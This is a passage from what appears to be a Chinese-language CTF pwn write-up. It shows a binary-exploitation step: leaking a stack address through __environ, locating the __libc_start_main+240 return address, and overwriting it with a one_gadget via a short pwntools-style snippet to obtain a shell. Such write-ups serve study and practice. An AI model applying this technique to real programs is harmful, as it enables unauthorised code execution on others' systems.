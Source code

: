 这里写入 '\_\_environ' 函数然后根据题目特点把 栈地址泄露出来了

[![](assets/1701612371-0e325026f69671d030cd41e876ae171c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701152106-d7e0f61e-17df-1.png)  
计算一下偏移，得到 '\_\_libc\_start\_main+240' 的地址，也就是程序的返回地址

```bash
edit(2, p64(stack_env-240))
edit(1, p64(gadget_addr))
p.readuntil("(CMD)>>>")
p.sendline("Q")
```

然后修改 chunk\_ptr1 为 '\_\_libc\_start\_main+240'

[![](assets/1701612371-e23460ca4d57b2181fcbccf2e2e6f2bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701152124-e2f42008-17df-1.png)  
这样编辑 chunk2 就能把 '\_\_libc\_start\_main+240' 修改为 og 了  
然后直接退出就 getshell 了
